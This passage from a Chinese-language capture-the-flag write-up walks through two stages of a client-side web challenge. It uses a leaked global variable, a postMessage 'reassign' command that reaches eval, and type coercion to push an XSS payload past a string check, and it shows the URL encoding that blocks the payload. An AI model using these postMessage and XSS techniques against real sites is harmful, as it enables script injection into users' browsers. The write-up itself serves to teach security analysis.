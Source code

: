 這個問題就出在 `for (x of access) {`，x 忘了宣告，所以預設就會變成全域變數。在這邊的話，`x` 會是 `top.store.users.admin`，也就是我們自己設置的那個 `<a>`。

## 第四關：繞過型態檢查

既然我們有了這個 x，就可以把它用 logv 這個 command 傳入 log function，然後因為 safe 會是 true，所以就可以直接把 x 的內容用 innerHTML 顯示出來。

如果你把一個 a 元素變成字串，會得到 a.href 的內容，所以我們可以把我們的 payload 放在 href 裡面。

但是，`log` 裡面會檢查 data 的型態，而 `a` 不是字串所以過不了檢查，這該怎麼辦呢？

這時候我重新看了一遍程式碼，發現了這個指令：

``` js
case "reassign": { // change variable's value
    let o = m.message;
    try {
        let RegExp = /^[s-zA-Z-+0-9]+$/;
        if (!RegExp.test(o.a) || !RegExp.test(o.b)) {
            throw new Error('Invalid input given!');
        }
        eval(`${o.a}=${o.b}`);
        log("[reassign]: ", `Value of "${o.a}" was changed to "${o.b}"`, type='warn');
    } catch (err) {
        log("[reassign]: ", `Error changing value (${err.message})`, type='err');
    }
    break;
}
```

我可以這樣做：

``` js
win.frames[1].postMessage({
    cmd: 'reassign',
    message:{
      a: 'Z',
      b: 'x+1'
    },
    credentials
}, '*')
```

這就等於是 `Z=x+1`，然後 `x+1` 的時候會因為自動轉型的關係變成字串，這樣一來 Z 就會是一個含有我們 payload 的字串了。

## 第五關：繞過 encode

雖然我們現在可以傳字串進去了，但還有一件事情要搞定，那就是因為 href 裡面的東西是 URL 所以會被 encode，例如說 `<` 會變成 `%3C`：

``` js
var a = document.createElement('a')
a.setAttribute('href', 'ftp://a:a@a#<img src=x onload=alert(1)>')
console.log(a+1)
// ftp://a:a@a/#%3Cimg%20src=x%20onload=alert(1)%3E1
```
